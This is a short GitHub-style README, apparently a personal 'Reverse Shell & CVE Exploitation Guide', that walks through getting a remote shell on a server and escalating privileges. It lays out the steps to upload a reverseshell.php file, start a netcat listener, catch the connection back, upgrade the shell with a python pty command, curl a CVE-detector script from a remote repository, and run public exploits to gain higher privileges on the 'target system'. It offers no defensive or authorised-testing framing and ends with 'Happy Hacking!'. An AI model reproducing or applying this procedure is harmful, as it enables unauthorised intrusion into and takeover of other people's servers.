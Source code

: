 # Reverse Shell & CVE Exploitation Guide

> Author: **Khayrol Islam**  
> Telegram: [@DevidLuice](https://t.me/DevidLuice)

---

## 1. Upload `reverseshell.php` to Your Host

- First, upload your `reverseshell.php` file to your web server/hosting.
- Then open the URL in your browser:

http://your-host.com/reverseshell.php



📸 **Example Screenshot:**  
![Upload Page](upload-your-photo-link-here)

---

## 2. Start Netcat Listener

On your machine, run:

nc -lnvp 1337


---

## 3. Enter Your Public IP and Port in `reverseshell.php`

- Input your **public IP address** and the **port** (example: 1337) inside the form of `reverseshell.php`.

📸 **Example Screenshot:**  
![Enter IP/Port](enter-ip-port-photo-link-here)

---

## 4. Receive Reverse Shell

- After entering the IP and port, the server will connect back to your machine.
- You will get a reverse shell in your Netcat terminal.

---

## 5. Upgrade to Full TTY Shell

Once connected, upgrade the shell for better control:


python3 -c 'import pty; pty.spawn("/bin/bash")'



(If `python3` is not available, try `python`.)

---

## 6. Download and Run CVE Detector

Download the Linux CVE detector script:

curl https://raw.githubusercontent.com/mrTr1cky/linux_priv_Guid-/refs/heads/main/cve-detector.sh -o cve-detector.sh

Make it executable:
chmod +x cve-detector.sh
Run the script:

It will scan the system for known vulnerabilities (CVEs).

---

## 7. Exploit Detected Vulnerabilities

- After getting the list of CVEs, find public exploits for them.
- Use the exploits to escalate your privileges on the target system.

---

# 🚀 Happy Hacking!

> Author: **Khayrol Islam**  
> Telegram: [@DevidLuice](https://t.me/DevidLuice)

---

